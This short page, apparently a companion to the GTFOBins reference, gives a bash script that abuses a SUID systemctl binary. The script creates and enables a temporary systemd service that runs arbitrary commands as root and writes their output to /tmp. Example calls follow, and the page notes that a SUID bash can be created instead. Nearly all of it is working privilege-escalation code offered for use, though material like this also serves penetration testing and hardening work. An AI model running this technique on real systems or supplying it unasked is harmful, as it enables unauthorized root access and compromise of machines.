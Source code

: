 # GTFOBins - extras

Some scripts, utilities, notes... complementary to GTFOBins.

<hr class="sl">

## ⚡ SUID `systemctl` script

Description: this script make it easier to run several commands using `systemctl`. Alternatively, you can create a bash with the SUID bit.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```bash
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -la
```
</div></div>